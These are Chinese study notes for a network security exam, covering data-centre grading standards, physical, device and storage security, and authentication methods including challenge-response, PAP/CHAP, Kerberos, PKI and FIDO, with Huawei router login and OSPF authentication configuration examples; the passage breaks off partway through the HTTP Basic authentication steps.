| **大型数据中心** | **3000 个 < 标准机柜 < 10000 个**；重点考虑**气候环境、能源供给**等要素，鼓励优先在**一类和二类地区**建设，也可在**气候适宜、靠近能源富集地区的三类地区**建设 |
| **中小型数据中心** | **标准机柜 < 3000 个**；重点考虑**市场需求、能源供给**等要素，鼓励面向**当地、以实时应用为主**的中小型数据中心，在**靠近用户所在地、能源获取便利**的地区建设，依市场需求灵活部署 |

```mermaid
graph TD
    D["数据中心按规模分类"] --> A["超大型：> 10000 标准机柜"]
    D --> B["大型：3000 < 机柜 < 10000"]
    D --> C["中小型：< 3000 标准机柜"]
```

###### 🧭 数据中心等级划分

数据中心应划分为 **A、B、C 三级**：

| 等级 | 划分条件 |
| --- | --- |
| **A 级** | 符合下列情况**之一**：(1) 电子信息系统运行中断将造成**重大的经济损失**；(2) 电子信息系统运行中断将造成**公共场所秩序严重混乱** |
| **B 级** | 符合下列情况**之一**：(1) 电子信息系统运行中断将造成**较大的经济损失**；(2) 电子信息系统运行中断将造成**公共场所秩序混乱** |
| **C 级** | **不属于 A 级或 B 级**的数据中心 |

###### 🧭 《数据中心设计规范（GB 50174-2017）》强制性条文

《数据中心设计规范（**GB 50174-2017**）》自 **2018 年 1 月 1 日**起实施，强制性条文内容如下：

| 序号 | 强制性条文 |
| --- | --- |
| 1 | 数据中心内所有设备的**金属外壳、各类金属管道、金属线槽、建筑物金属结构**必须进行**等电位联结并接地** |
| 2 | 数据中心的**耐火等级不应低于二级** |
| 3 | 当数据中心与其他功能用房在同一个建筑内时，数据中心与建筑内其他功能用房之间应采用耐火极限**不低于 2.0 h 的防火隔墙**和 **1.5 h 的楼板**隔开，隔墙上开门应采用**甲级防火门** |
| 4 | 采用**管网式气体灭火系统或细水雾灭火系统**的主机房，应同时设置**两组独立的火灾探测器**，火灾报警系统应与**灭火系统和视频监控系统联动** |
| 5 | 设置**气体灭火系统**的主机房，应配置**专用空气呼吸器或氧气呼吸器** |

> [!IMPORTANT]
> 必背数字：**耐火等级 ≥ 二级**；防火隔墙 **2.0 h**；楼板 **1.5 h**；**甲级防火门**；**两组独立火灾探测器**。

###### 🧭 互联网数据中心（IDC）

**互联网数据中心**简称 **IDC**，是向用户提供**资源出租基本业务**和**有关附加业务**、在线提供 **IT 应用平台能力租用服务**和**应用软件租用服务**的数据中心。用户通过使用互联网数据中心的业务和服务，实现用户自身对外的互联网业务和服务。

**IDC 由以下六大逻辑功能部分组成**（图 5-4）：

```mermaid
graph TD
    I["IDC 逻辑组成"] --> A["业务系统（基本业务、附加业务、平台服务、应用服务等）"]
    I --> B["资源池（计算、存储、网络等资源池）"]
    I --> C["网络（网络互联、核心网络、汇聚网络等）"]
    I --> D["机房基础设施（机房建筑、供电、空调、布线、消防、安防、动力环境监控、能源管理等）"]
    I --> E["（运营/管理系统）"]
    I --> F["（安全/服务保障）"]
```

###### 🧭 互联网数据中心等级与规范

《**互联网数据中心工程技术规范（GB 51195-2016）**》自 **2017 年 4 月 1 日**起实施，规定 **IDC 机房分成 R1、R2 和 R3 三个级别**：

| 等级 | 划分条件 |
| --- | --- |
| **R1 级** | IDC 机房的**基础设施和网络系统的主要部分应具备一定的冗余能力**，机房基础设施和网络系统可支撑的 IDC 业务的**可用性不应小于 99.5%** |
| **R2 级** | IDC 机房的机房基础设施和网络系统应具备**冗余能力**，机房基础设施和网络系统可支撑的 IDC 业务的**可用性不应小于 99.99%** |
| **R3 级** | IDC 机房的机房基础设施和网络系统应具备**容错能力**，机房基础设施和网络系统可支撑的 IDC 业务的**可用性不应小于 99.999%** |

> [!IMPORTANT]
> IDC 三级可用性：**R1 ≥ 99.5%**（一定冗余）、**R2 ≥ 99.99%**（冗余）、**R3 ≥ 99.999%**（容错）。

###### 🧭 可用性量化指标（几个 9）

| 通俗叫法 | 可用性级别 | 年度宕机时间 | 每天宕机时间 |
| --- | --- | --- | --- |
| **1 个 9** | **90%** | **36.5 天** | **2.4 小时** |
| **2 个 9** | **99%** | **87.6 小时** | **14.4 分钟** |
| **3 个 9** | **99.9%** | **8.76 小时** | **86 秒** |
| **4 个 9** | **99.99%** | **52.6 分钟** | **8.6 秒** |
| **5 个 9** | **99.999%** | **5.26 分钟（315.36 秒）** | **0.86 秒** |
| （更高） | **99.99999%** | — | — |

**补充的可用性/宕机时间对照（OCR 部分缺失，保留可辨识数值）：**

| 可用性级别 | 年度宕机时间（小时） |
| --- | --- |
| **65.00%** | **3066**（OCR 疑为 3066 小时） |
| **75.00%** | **2190** |
| **95.00%** | **438** |
| **98.00%** | **175.2** |
| **99.50%** | **43.8** |
| **99.90%** | **8.76** |

> [!NOTE]
> 该对照表 OCR 有多处错位（如「35044」「306」「219」「438」「1752」「5256」等），上表按 365 天 = 8760 小时推算校准，备考以「五个 9 = 5.26 分钟/年」等主流数值为准。

###### 🧭 IDC 机房强制要求

**抗震要求**：在我国**抗震设防烈度 7 度以上（含 7 度）**地区 IDC 工程中使用的主要**电信设备**必须经**电信设备抗震性能检测合格**。

**施工开始以前必须对机房的安全条件进行全面检查**，应符合下列规定：

| 序号 | 规定 |
| --- | --- |
| ① | 机房内必须配备**有效的灭火消防器材**，机房基础设施中的**消防系统工程应施工完毕**，并应具备**保持性能良好，满足 IT 设备系统安装、调测施工要求**的使用条件 |
| ② | **楼板预留孔洞应配置非燃烧材料的安全盖板**，已用的**电缆走线孔洞应用非燃烧材料封堵** |
| ③ | 机房内**严禁存放易燃、易爆等危险物品** |
| ④ | 机房内**不同电压的电源设备、电源插座应有明显区别标志** |

> [!IMPORTANT]
> 抗震设防烈度 **7 度以上（含 7 度）**地区的 IDC 主要电信设备须经**抗震性能检测合格**。

---

##### 5.3 通信线路 / 设备 / 存储介质安全

###### 🧭 网络通信线路安全分析与防护

| 项目 | 要点 |
| --- | --- |
| **网络通信线路物理威胁** | **线路被切断、电磁干扰、线路泄露信息** |
| **线路安全防护** | **设备冗余 + 线路冗余** |

图 5-5 示意某 ISP 网络拓扑结构：包含**互联网服务提供商（路由器 1、路由器 2）**、**其他互联网服务提供商**、**网络运行中心**、**拨号访问**、**专线访问**等。

```mermaid
graph LR
    A["互联网服务提供商 路由器1"] --- B["路由器2"]
    B --- C["其他互联网服务提供商"]
    B --- D["网络运行中心"]
    D --- E["拨号访问"]
    D --- F["专线访问"]
```

###### 🧭 设备实体安全分析与防护

**设备实体安全分析**：设备是一个网络信息系统的**计算、通信控制、数据存储**的平台，其**物理安全至关重要**。

| 分类 | 内容 |
| --- | --- |
| **安全威胁** | (4) **设备供应链条中断或延缓**；(5) **设备实体的固件部分遭受攻击**；(6) **设备遭受硬件攻击**；(7) **设备实体的控制组件安全威胁**；(8) **设备非法外联** |
| **安全防护（技术）** | (1) **设备的标志和标记**；(2) **设备电磁辐射防护**；(3) **设备静电及用电安全防护**；(4) **设备（物理）安全防护**；(5) **设备环境安全保护**；(6) **设备适应性与可靠性保护** |
| **安全防护（管理）** | (1) **设备供应链弹性**；(2) **设备安全质量保障**；(3) **设备安全合规**；(4) **设备安全审查** |

> [!NOTE]
> 原表编号从 (4) 开始，前 3 项（疑为「设备被盗、设备损毁、设备故障」等）OCR 丢失。

###### 🧭 设备硬件攻击防护

针对硬件攻击，主要安全措施：

**(1) 硬件木马检测**：**反向分析法、功耗分析法、侧信道分析法**。

| 方法 | 说明 |
| --- | --- |
| **反向分析法** | 通过**逆向工程**方法将封装的**芯片电路打开**，**逐层扫描拍照**电路，然后使用**图形分析软件和电路提取软件重建电路结构图**，将**恢复出的设计与原始设计进行对比分析**，以检测硬件木马 |
| **功耗分析法** | 获取芯片的**功耗特征**与「**纯净芯片**」**功耗特征比对**，以判断芯片是否被篡改 |
| **侧信道分析法** | 通过比对电路中的**物理特性和旁路信息**的不同，发现电路的变化；原理是**任何硬件电路的改变都会反映在一些电路参数上**，如**功率、时序、电磁、热**等（图 5-6 侧信道分析法流程示意图） |

**(2) 硬件漏洞处理**：**不同于软件漏洞，硬件漏洞的修补具有不可逆性**。通常方法是**破坏漏洞利用条件**，防止漏洞被攻击者利用。

```mermaid
graph TD
    H["硬件攻击防护"] --> A["硬件木马检测"]
    A --> A1["反向分析法：开封芯片逐层扫描重建对比"]
    A --> A2["功耗分析法：功耗特征 vs 纯净芯片"]
    A --> A3["侧信道分析法：功率/时序/电磁/热等旁路信息"]
    H --> B["硬件漏洞处理：破坏漏洞利用条件（修补不可逆）"]
```

###### 🧭 存储介质安全分析与防护

| 分类 | 内容 |
| --- | --- |
| **存储介质安全分析** | (1) **存储管理失控**；(2) **存储数据泄密**；(3) **存储介质及存储设备故障**；(4) **存储介质数据非安全删除**；(5) **恶意代码攻击** |
| **存储介质安全防护（1. 强化存储安全管理）** | ① **设有专门区域用于存放介质**，并有**专人负责保管维护**；② 有关介质**借用，必须办理审批和登记手续**；③ **介质分类存放**，**重要数据应进行复制备份两份以上，分开备份**，以备不时之需；④ 对**敏感数据、重要数据和关键数据**，应采取**贴密封条或其他的安全有效措施**，防止被**非法拷贝**；⑤ **报废的光盘、磁盘、磁带、硬盘、移动盘必须按规定程序完全消除敏感数据信息** |
| **存储介质安全防护（2）** | **数据存储加密保存** |
| **存储介质安全防护（3）** | **容错容灾存储技术**：采用**磁盘阵列、双机在线备份、离线备份**等综合安全措施 |

```mermaid
graph TD
    S["存储介质安全"] --> T["威胁：管理失控/数据泄密/设备故障/非安全删除/恶意代码"]
    S --> P1["强化存储安全管理：专区存放、专人保管、借用审批登记、分类存放、重要数据备份两份以上分开、密封条防拷贝、报废介质彻底消除数据"]
    S --> P2["数据存储加密保存"]
    S --> P3["容错容灾存储技术：磁盘阵列 + 双机在线备份 + 离线备份"]
```

###### 🧭 容错容灾存储技术（图 5-7）

采用**磁盘阵列、双机在线备份、离线备份**等综合安全措施。典型配置：**Web 服务器、应用服务器** → **磁盘阵列** → **离线备份**。

```mermaid
graph LR
    W["Web 服务器"] --> R["磁盘阵列"]
    A["应用服务器"] --> R
    R --> O["离线备份"]
```

---

#### 第 6 章 认证技术与原理

本章目录：认证技术基础与原理 → 认证主要产品与应用。

##### 6.1 认证概述

###### 🧭 认证的两个组成部分

认证一般由**标识（Identification）**和**鉴别（Authentication）**两部分组成。

| 组成 | 说明 |
| --- | --- |
| **标识** | 代表实体对象的**身份标志**，确保实体的**唯一性和可辨识性**，同时与实体存在**强关联**。标识一般用**名称和标识符（ID）**来表示。通过**唯一标识符**，可以代表实体 |
| **鉴别** | 利用**口令、电子签名、数字证书、令牌、生物特征、行为表现**等相关**数字化凭证**对实体所声称的属性进行**识别验证**的过程 |

**鉴别的凭据 / 认证依据（四类）：**

1. **所知道的秘密信息**（如口令）
2. **所拥有的实物凭证**（如令牌、U 盾、智能卡）
3. **所具有的生物特征**（如指纹、人脸）
4. **所表现的行为特征**

```mermaid
graph LR
    A["实体A（声称者）：口令是 123456"] --> B["实体B（验证者）"]
    B --> C{"验证"}
    C --> D["验证通过 OK"]
    C --> E["验证失败"]
```

###### 🧭 认证原理

**认证机制由验证对象、认证协议、鉴别实体构成。**

| 组成 | 说明 |
| --- | --- |
| **验证对象** | 是需要鉴别的**实体（声称者）** |
| **认证协议** | 是验证对象和鉴别实体（验证者）之间进行**认证信息交换**所**遵从的规则** |
| **鉴别实体** | 根据验证对象所提供的**认证依据**，给出**身份的真实性或属性判断** |

###### 🧭 认证分类

| 分类维度 | 类型 |
| --- | --- |
| **按需要认证凭据的类型数量** | **单因素认证、双因素认证、多因素认证** |
| **按认证双方角色和所依赖外部条件** | **单向认证、双向认证、第三方认证** |
| **根据认证依据所利用的时间长度** | **一次性口令（OTP）、持续认证** |

**一次性口令（OTP，One Time Password）**：用于**保护口令安全**，**防止口令重用攻击**，例如**短消息验证码、S/Key** 等。

**持续认证**：是指**连续提供身份确认**，对用户**整个会话过程中的特征行为**进行**连续检测**，**不间断地**验证用户所具有的特性。标志是将**对事件的身份验证转变为对过程的身份验证**。

**持续验证所使用的鉴定因素：**

| 因素 | 内容 |
| --- | --- |
| **认知因素** | 主要有**眼手协调、应用行为模式、使用偏好、设备交互模式**等 |
| **物理因素** | 主要有**左/右手、按压大小、手震、手臂大小和肌肉使用** |
| **上下文因素** | （时间、地点、网络环境等上下文） |

```mermaid
graph TD
    C["认证分类"] --> N["按凭据类型数量：单因素 / 双因素 / 多因素"]
    C --> R["按角色与外部条件：单向 / 双向 / 第三方"]
    C --> T["按时间长度：一次性口令 OTP / 持续认证"]
    T --> T1["OTP：防止口令重用攻击，如短信验证码、S/Key"]
    T --> T2["持续认证：事件验证 → 过程验证；认知因素/物理因素/上下文因素"]
```

---

##### 6.2 单向认证

###### 🧭 概念与技术分类

**单向认证**：验证者对声称者进行**单方面的鉴别**，而**声称者不需要识别验证者的身份**。

单向认证技术有**两种**：**基于共享秘密**和**基于挑战响应**。

###### 🧭 基于共享秘密的认证

设验证者和声称者**共享一个秘密 KAB**，**IDA** 为标识，过程如下：

1. ① A 生成并向 B 发送消息 **(IDA, KAB)**；
2. ② B 收到 (IDA, KAB) 的消息后，B **检查 IDA 和 KAB 的正确性**。如正确，则**确认 A 的身份**；
3. ③ B **回复 A 验证结果消息**。

```mermaid
sequenceDiagram
    participant A as 声称者 A
    participant B as 验证者 B
    A->>B: ① 发送 (IDA, KAB)
    B->>B: ② 检查 IDA 和 KAB 的正确性
    B->>A: ③ 回复验证结果消息
```

###### 🧭 基于挑战响应的认证

设验证者 B 生成一个**随机数 RB**，**IDA** 为实体 A 的标识，**IDB** 为实体 B 的标识，则认证过程如下：

1. ① B 产生一个**随机数 RB**，并向 A 发送消息 **(IDB, RB)**；
2. ② A 收到 (IDB, RB) 消息后，**安全生成包含随机数 RB 的秘密 KAB**，并发送消息 **(IDA, KAB)** 到 B；
3. ③ B 收到 (IDA, KAB) 的消息后：
   - 如果采用 **HASH 算法**，则 B **本地生成 KAB**，并**对比** KAB 和 KAB，如果**相等**则**认证通过**；
   - 如果采用**对称加密算法**，B **解密 KAB**，**检查 RB 是否正确**。若正确，则**确认 A 的身份**；
4. ④ B **回复 A 验证结果消息**。

**公式表达：** `B = Hash(key + RB)`，`A = Hash(key + RB)`，两边比对。

```mermaid
sequenceDiagram
    participant A as 声称者 A
    participant B as 验证者 B
    B->>A: ① 发送 (IDB, RB) 挑战
    A->>A: 生成 KAB = Hash(key + RB)
    A->>B: ② 发送 (IDA, KAB) 响应
    B->>B: ③ 本地计算 Hash(key + RB) 并对比（或对称解密检查 RB）
    B->>A: ④ 回复验证结果（认证通过 or 失败）
```

> [!IMPORTANT]
> 挑战-响应机制的核心：B 发**随机数 RB（挑战）**，A 用**共享密钥 + RB** 计算响应，从而**防止重放攻击**。

###### 🧭 认证应用 —— PPP 协议认证功能 PAP 和 CHAP

| 协议 | 特点 |
| --- | --- |
| **PAP** | **两次握手**验证协议，**口令以明文传输**，**被验证方首先发起请求** |
| **CHAP** | **三次握手**，认证过程**不传送认证口令**，传送 **HMAC 散列值** |

```mermaid
sequenceDiagram
    Note over A,B: PAP 两次握手
    participant A as 被认证方
    participant B as 主认证方
    A->>B: 用户名 + 密码（明文）
    B->>A: 通过或拒绝
```

```mermaid
sequenceDiagram
    participant A as 被认证方
    participant B as 主认证方
    B->>A: 用户名 + 随机报文（挑战）
    A->>B: 用户 + hash 后报文（响应）
    B->>A: 通过或拒绝
```

> [!IMPORTANT]
> PAP vs CHAP：
> - **PAP**：**两次**握手，**明文**口令，被验证方首先发起 → **不安全**
> - **CHAP**：**三次**握手，**不传口令**，传 **HMAC 散列值** → **安全**
>
> 考试常考「CHAP 比 PAP 安全，因为不传输明文口令且支持挑战-响应」。

---

##### 6.3 双向认证与第三方认证

###### 🧭 双向认证

是指在认证过程中，**验证者对声称者进行单方面的鉴别**，同时，**声称者也对验证者的身份进行确认**。

参与认证的实体双方**互为验证者**，在网络服务认证过程中，**双向认证要求服务方和客户方互相认证**，**客户方也认证服务方**，这样就可以**解决服务器的真假识别安全问题**。

```mermaid
sequenceDiagram
    participant A as 实体 A
    participant B as 实体 B
    A->>B: A 的标识与身份证明凭据
    B->>B: 验证 A
    B->>A: B 的标识与身份证明凭据
    A->>A: 验证 B
    A->>B: A 的验证结果
```

###### 🧭 第三方认证

**第三方认证**：两个实体在鉴别过程中通过**可信的第三方**来实现。

**可信的第三方**简称 **TTP（Trusted Third Party）**。

设 A 和 B 各生成随机数为 **RA、RB**，**IDA** 为实体 A 的标识，**IDB** 为实体 B 的标识，认证过程如下：

1. ① 实体 A 向第三方 P 发送加密消息 **KPA(IDB, RA)**；
2. ② 第三方收到 KPA(IDB, RA) 后，**解密获取内容**。生成消息 **KPA(RA, KAB)** 和 **KPB(IDA, KAB)**，发送到实体 A；
3. ③ 实体 A 发送 **KPB(IDA, KAB)** 到实体 B；
4. ④ 实体 B 解密消息 KPB(IDA, KAB)，生成消息 **KAB(IDA, RB)**，然后发送给实体 A；
5. ⑤ 实体 A 解密 KAB(IDA, RB)，生成消息 **KAB(IDB, RB)** 发送给实体 B；
6. ⑥ 实体 B 解密消息 KAB(IDB, RB)，**检查 RB 的正确性**，若正确，则**实体 A 认证通过**；
7. ⑦ B 回复 A 验证结果消息。

```mermaid
sequenceDiagram
    participant A as 实体 A
    participant P as 可信第三方 P (TTP)
    participant B as 实体 B
    A->>P: ① KPA(IDB, RA)
    P->>A: ② KPA(RA, KAB) 和 KPB(IDA, KAB)
    A->>B: ③ KPB(IDA, KAB)
    B->>A: ④ KAB(IDA, RB)
    A->>B: ⑤ KAB(IDB, RB)
    B->>B: ⑥ 解密并检查 RB 正确性 → A 认证通过
    B->>A: ⑦ 回复验证结果消息
```

> [!TIP]
> 第三方认证的核心思想：**可信第三方（TTP）负责分发会话密钥 KAB**，通信双方无需预先共享密钥。典型实例：**Kerberos 中的 KDC**。

---

##### 6.4 认证技术方法

###### 🧭 口令认证技术

| 项目 | 要点 |
| --- | --- |
| 定义 | 是基于用户**所知道的秘密**而进行的认证技术，是网络**常见的身份认证**方法 |
| **优点** | **简单、易于实现** |
| **缺点** | **容易受到攻击**，主要攻击方式有**窃听、重放、中间人攻击、口令猜测**等 |
| **安全措施** | ① **口令信息要安全加密存储**；② **口令信息要安全传输**；③ **口令认证协议要抵抗攻击**，符合安全协议设计要求；④ **口令选择要求做到避免弱口令**，遵循**口令生成安全策略**，同时对生成的口令进行**安全强度评测** |

###### 🧭 智能卡技术

一种**带有智能存储器和微处理器**的**集成电路卡**，能够**安全存储认证信息**，并具有一定的**计算能力**。（如**身份证、银行卡、校园卡**等）

###### 🧭 生物特征认证技术

利用**人类生物特征**来进行验证。**指纹、人脸、视网膜、语音**等生物特征信息可用来进行身份认证。

---

##### 6.5 Kerberos 认证协议

###### 🧭 Kerberos 的四个基本实体

| 实体 | 说明 |
| --- | --- |
| **(1) Kerberos 客户机** | 用户用来访问服务器设备 |
| **(2) AS（Authentication Server，认证服务器）** | **识别用户身份**并提供**TGS 票据** |
| **(3) TGS（Ticket Granting Server，票据发放服务器）** | 为申请服务的用户**发放服务票据** |
| **(4) 应用服务器（Application Server）** | **为用户提供服务**的设备或系统 |

**AS 和 TGS 统称为 KDC（Key Distribution Center，密钥分发中心）。**

**票据（Ticket）**：是用于**安全的传递用户身份所需要的信息的集合**，主要包括**客户方实体名称、地址、时间戳、票据生存期和会话密钥**等内容。

**基本流程：** 客户机向 **AS** 请求 **TGS 票据** → 凭 TGS 票据向 **TGS** 请求服务票据 → 凭服务票据访问**应用服务器**。

```mermaid
sequenceDiagram
    participant C as Kerberos 客户机
    participant AS as AS 认证服务器
    participant TGS as TGS 票据发放服务器
    participant S as 应用服务器
    C->>AS: 1. 向 AS 请求 TGS 票据（TGT）
    AS->>C: 返回 TGT（用用户密钥加密）
    C->>TGS: 2. 凭 TGT 请求服务票据
    TGS->>C: 返回服务票据
    C->>S: 3. 凭服务票据访问应用服务器
```

###### 🧭 Kerberos 两重认证的优点

Kerberos 协议中要求用户经过 **AS 和 TGS 两重认证**的优点主要有两点：

| 编号 | 优点 |
| --- | --- |
| **(1)** | 可以**显著减少用户密钥的密文的暴露次数**，这样就可以减少攻击者对有关**用户密钥的密文的积累** |
| **(2)** | Kerberos 认证过程具有**单点登录（SSO）**的优点，只要用户拿到了 **TGT** 并且该 **TGT 没有过期**，那么用户就可以使用该 TGT 通过 **TGS** 完成到**任一服务器**的认证过程而**不必重新输入密码** |

###### 🧭 Kerberos 的不足

要求解决**主机节点时间同步问题**和**抵御拒绝服务攻击**：

- 如果**某台主机时间被更改**，那么这台主机就**无法使用 Kerberos 认证协议**；
- 如果**服务器的时间发生了错误**，那么整个 **Kerberos 认证系统（将失效/瘫痪）**。

> [!IMPORTANT]
> Kerberos 考点：
> - 四个实体：**客户机、AS、TGS、应用服务器**；**AS + TGS = KDC**
> - 优点：**减少密钥密文暴露** + **单点登录（SSO）**
> - 不足：**依赖时间同步**、**易受 DoS 攻击**
> - 票据内容：**实体名称、地址、时间戳、生存期、会话密钥**

---

##### 6.6 PKI 体系结构（第 2 次出现，认证章节视角）

| 组成 | 说明 |
| --- | --- |
| **1. 用户 / 终端实体（PKI 用户）** | 指将要向认证中心**申请数字证书**的客户，可以是**个人**，也可以是**集团或团体、某政府机构**等 |
| **2. 注册机构 RA** | 注册机构提供**用户和 CA 之间的一个接口**，它**获取并认证用户的身份**，**向 CA 提出证书请求**。主要完成**收集用户信息和确认用户身份**的功能。注册机构**并不给用户签发证书**，而只是**对用户进行资格审查**。**较小的机构，可以由 CA 兼任 RA 的工作** |
| **3. 证书颁发机构 CA** | 负责给用户**颁发证书** |
| **4. 证书发布系统** | 负责**证书发放**，如可以通过**用户自己**或是通过**目录服务** |
| **5. CRL 发布者 / CRL 库** | **证书吊销列表**，存放**过期或者无效证书** |

```mermaid
graph TD
    U["PKI 用户 / 终端实体"] --> RA["RA：注册机构（接口 + 资格审查）"]
    RA --> CA["CA：证书颁发机构"]
    CA --> PUB["证书发布系统"]
    CA --> CRL["CRL 发布者 → CRL 库"]
    PUB --> U
    CRL --> U
```

---

##### 6.7 其他认证技术

| 技术 | 要点 |
| --- | --- |
| **SSO（Single Sign On，单点登录）** | 指用户访问使用**不同的系统**时，只需要**进行一次身份认证**，就可以根据这次登录的认证身份**访问授权资源**。解决了用户访问使用不同系统时，需要**输入不同系统的口令**以及**保管口令**问题，**简化了认证管理工作** |
| **基于人机识别认证技术** | 利用**计算机求解问题的困难性**以区分**计算机和人的操作**，防止**计算机程序恶意操作**，例如 **12306 图片登录验证码** |
| **多因素认证技术** | 使用**多种鉴别信息**进行**组合**，以提升**认证的安全强度** |
| **基于行为的身份鉴别技术** | 根据用户**行为和风险大小**而进行的身份鉴别技术，比如**异地登录告警** |
| **快速在线认证（FIDO）** | 使用**标准公钥加密技术**来提供**强身份认证**。**私钥保留在用户端设备中**，只将**公钥注册到在线服务**。公钥将发送到在线服务并与**用户账户关联**。**私钥和有关本地身份验证方法的任何信息**（如**生物识别测量或模板**）**永远不会离开本地设备** |

> [!IMPORTANT]
> **FIDO** 核心特点：**私钥不出本地设备**，只把公钥注册到在线服务；生物特征模板**不上传服务器**。

---

##### 6.8 认证主要产品

###### 🧭 产品形态与类型

认证产品形态有**硬件实体模式、软件模式或软硬结合模式**。

| 产品类型 | 代表产品 / 说明 |
| --- | --- |
| **系统安全增强** | **U 盘 + 口令、智能卡 + 口令、生物信息 + 口令**等。产品应用场景有**U 盘登录计算机、网银 U 盾认证、指纹登录计算机/网站/邮箱**等 |
| **生物认证 / 身份核验** | **人证核验智能终端、指纹 U 盘、人脸识别门禁、指纹采集仪、指纹比对引擎、人脸自动识别平台** |
| **电子认证服务** | **数字证书认证系统、证书管理服务器、可信网络身份认证、SSL 证书、数字证书服务、时间戳公共服务平台、个人多源可信身份统一认证服务平台**等 |
| **网络准入控制** | 技术特点是采用基于 **802.1X 协议、Radius 协议、VPN** 等的**身份验证**相关技术，与**网络交换机、路由器、安全网关**等设备**联动**，对**入网设备**（如**主机、移动 PC、智能手机**等）进行**身份认证和安全合规性验证**，防范**非安全设备接入内部网络**。（**认证软件**） |
| **身份认证网关** | 技术特点是利用**数字证书、数据同步、网络服务重定向**等技术，提供**集中、统一**的认证服务，形成**身份认证中心**，具有**单点登录、安全审计**等安全服务功能。（**认证软件**） |

> [!IMPORTANT]
> 网络准入控制关键技术：**802.1X、Radius、VPN**，与交换机/路由器/安全网关联动。

###### 🧭 认证产品主要技术指标

认证产品评价指标可分**三类**：**安全功能要求、性能要求和安全保障要求**。

| 指标 | 说明 |
| --- | --- |
| **(1) 算法支持** | 认证技术主要依赖于**密码技术**，常见的密码算法类型有 **DES/3DES、AES、SHA-1、RSA、SM1/SM2/SM3/SM4** |
| **(2) 认证准确性** | 认证产品的**认假率、拒真率** |
| **(3) 用户支持数量** | 认证产品的**最大承载的用户数量** |
| **(4) 安全保障级别** | 认证产品的**安全保证措施、安全可靠程度、抵抗攻击能力**等 |

> [!WARNING]
> 易错：「认假率」（把假的认成真的，即 FAR）与「拒真率」（把真的拒了，即 FRR）是两个不同指标，注意区分。

---

##### 6.9 认证技术应用

###### 🧭 认证技术的三大应用场景

认证技术是网络安全保障的**基础性技术**，普遍应用于网络信息系统保护，常见应用场景：

| 编号 | 场景 | 说明 |
| --- | --- | --- |
| **(1)** | **用户身份验证** | 验证**网络资源的访问者的身份**，给网络系统**访问授权**提供支持服务 |
| **(2)** | **信息来源证实** | 验证网络信息的**发送者和接收者的真实性**，**防止假冒** |
| **(3)** | **信息安全保护** | 通过认证技术保护网络信息的**机密性、完整性**，防止**泄密、篡改、重放或延迟** |

###### 🧭 应用一：校园网应用（图 6-25 校园信任体系建设示意图）

| 要点 | 内容 |
| --- | --- |
| 数字证书发放和服务体系 | 在校园内部建设**数字证书发放和服务体系**，进行**数字身份凭证的管理** |
| 身份对应 | 通过**严格按照相关规范进行身份验证**，实现对**物理身份与数字身份的对应**，并通过对数字证书的**申请、发放、吊销、更新**等过程，实现**数字身份认证的管理** |
| 统一认证管理系统 | 围绕**整合的用户、应用系统等资源的管理**，构建**网络信任体系的基础设施平台** |
| 平台功能 | 实现基于**数字证书的身份认证**，实现基于**角色或资源的授权管理**，实现**统一的安全策略设定和维护**，实现**责任认定的安全设计** |
| PKI 应用支撑系统 | 为校园内部**其他应用系统**提供**可信的数据电文服务** |

###### 🧭 应用二：网络路由认证

路由安全是网络安全的基础，为了保证路由安全，**路由器设备的访问及路由消息都需要进行认证**。

| 类型 | 说明 |
| --- | --- |
| **(1) 用户认证** | 当一个**用户访问路由器**时，必须经过**认证通过**才能被允许 |
| **(2) 路由器邻居认证** | 当**两个相邻的路由器**进行**路由信息交换**时，需要进行**身份验证**，以保证接收**可信的路由消息**，以防止出现**未经授权的、恶意的路由更新**。路由器邻居认证的类型有 **OSPF 认证、RIP 认证、EIGRP 认证**。认证模式有**明文认证、消息摘要认证**。**明文认证不安全，口令容易被监听**，所以一般**推荐采用消息摘要认证** |

> [!IMPORTANT]
> 路由器邻居认证三种：**OSPF、RIP、EIGRP**；两种模式：**明文认证（不安全）、消息摘要认证（推荐）**。

###### 🧭 应用三：用户登录设备（华为设备配置示例）

**密码登录方式（password）：**

```
[Huawei] telnet server enable                       // 开启设备 telnet 功能
[Huawei] user-interface vty 0 4                     // 开启用户登录接口 0-4
[Huawei-ui-vty0-4] protocol inbound telnet          // 通过 telnet 协议登录，默认是 telnet
[Huawei-ui-vty0-4] authentication-mode ?            // 查看认证方式有哪些
  aaa       AAA authentication
  password  Authentication through the password of a user terminal interface
[Huawei-ui-vty0-4] authentication-mode password     // 设置为密码登录
Please configure the login password (maximum length 16): huawei   // 密码是 huawei
```

> [!NOTE]
> 注：不同版本命令有细微差异，有的版本需先执行 `set authentication password cipher` 后输入密码。

**AAA 认证方式配置：**

```
[Huawei-ui-vty0-4] authentication-mode aaa          // 认证方式为 aaa
[Huawei] aaa                                        // 启用 aaa
[Huawei-aaa] local-user admin123 password cipher admin123   // 配置用户名密码
[Huawei-aaa] local-user admin123 service-type telnet        // 用户用于 telnet
[Huawei-aaa] local-user admin123 privilege level 15         // 用户等级为 15
```

> [!IMPORTANT]
> 华为设备：**用户等级 15** 为最高权限；VTY 接口 `0 4` 表示允许 **5 个**并发登录。

###### 🧭 应用四：路由更新认证（OSPF 密文认证配置示例）

配置 **OSPF Area 0** 区域**密文认证**，使用**验证模式为 MD5**，**验证标识符为 1**，**口令为 huawei3**：

```
[R2] ospf 1
[R2-ospf-1] area 0
[R2-ospf-1-area-0.0.0.0] authentication-mode md5 1 huawei3
```

###### 🧭 应用五：人脸识别机房门禁与 eID

| 应用 | 要点 |
| --- | --- |
| **人脸识别机房门禁** | 利用先进的**生物识别技术**，通过**人脸特征信息**快速判断人员身份，客观控制门禁系统，彻底杜绝通过**伪造证件冒名顶替、利用他人证件通过及擅自进入**的可能性。**人员进出数据及现场记录图像可实时上传管理平台**，帮助管理者轻松、高效地进行安全管理工作 |
| **eID 身份验证** | **公民网络电子身份标识（eID）**是国家网络安全的重要保障。**eID 是由国家主管部门签发**，与**个人真实身份具有一一对应关系**，用于**在线识别公民真实身份**的网络电子身份。由**一对非对称密钥**和含有**其公钥及相关信息的数字证书**组成 |

###### 🧭 应用六：HTTP 认证

**HTTP** 是 WEB 服务器应用协议，支持的认证方式主要有**基本访问认证（BAA）、数字摘要认证、NTLM、Negotiate、Windows Live ID** 等。

**HTTP BAA 认证过程（图 6-29 / 图 6-30）：**

1. ① 客户端发送 `GET / HTTP/1.1`；
2. ② 服务器返回 `HTTP/1.1 401 Unauthorized` —— **服务器请求客户端进行身份验证**；
3. ③ 客户端**掩盖凭证**（携带凭证）重新提交，服务器**验证凭证**；
